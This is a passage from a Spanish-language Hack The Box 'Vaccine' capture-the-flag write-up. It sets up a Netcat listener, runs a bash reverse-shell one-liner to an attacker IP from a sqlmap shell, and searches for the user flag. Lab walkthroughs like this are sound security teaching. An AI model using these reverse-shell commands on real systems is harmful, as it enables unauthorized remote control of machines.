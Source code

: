 ### Reverse Shell

Aprovechando lo anterior, procedo a ejecutar una **reverse shell**. En primer lugar, se coloca en escucha a **Netcat** en el puerto 443 con el comando `sudo nc -lvnp 443`

![Vaccine Yw4rf](../../../assets/HTB/Vaccine/vaccine-24.png)

Luego de aquello, en la shell de sqlmap ejecutamos el siguiente comando: `bash -i >& /dev/tcp/10.10.14.176/443 0>&1`

![Vaccine Yw4rf](../../../assets/HTB/Vaccine/vaccine-25.png)

Comprobamos la terminal donde iniciamos **Netcat** y efectivamente la **reverse shell** funcionó correctamente:

![Vaccine Yw4rf](../../../assets/HTB/Vaccine/vaccine-26.png)

Una vez dentro del sistema utilizo el comando `find / -name user.txt 2>/dev/null` para encontrar la ubicación de la flag `user.txt` 

![Vaccine Yw4rf](../../../assets/HTB/Vaccine/vaccine-27.png)
